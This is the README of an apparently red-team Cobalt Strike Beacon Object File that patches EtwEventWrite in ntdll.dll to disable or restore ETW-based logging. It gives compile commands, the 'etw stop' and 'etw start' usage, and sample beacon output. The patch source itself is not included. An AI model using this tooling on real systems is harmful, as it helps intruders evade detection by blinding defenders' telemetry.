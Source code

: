 ## ETW Patching BOF

Simple Beacon object file to patch (and revert) the EtwEventWrite function in ntdll.dll to degrade ETW based logging.

All credit goes to @xpn: https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/.

## Compile

```
x86_64-w64-mingw32-gcc -c etw.c -o etw.x64.o
i686-w64-mingw32-gcc -c etw.c -o etw.x86.o
```

## Usage

Aggressor script included with `etw start` and `etw stop` commands.

Patch bytes returned to confirm activity.

```
beacon> help etw
etw stop - patch out EtwEventWrite in Ntdll.dll to prevent ETW-based logging.
etw start - patch back in EtwEventWrite in Ntdll.dll to restart ETW-based logging.

beacon> etw stop
[*] Running ETW patching BOF (@ajpc500)
[+] host called home, sent: 1391 bytes
[+] received output:
Action: stop
Working with 32-bit.
[+] received output:
c2
[+] received output:
14
[+] received output:
0
[+] received output:
0
```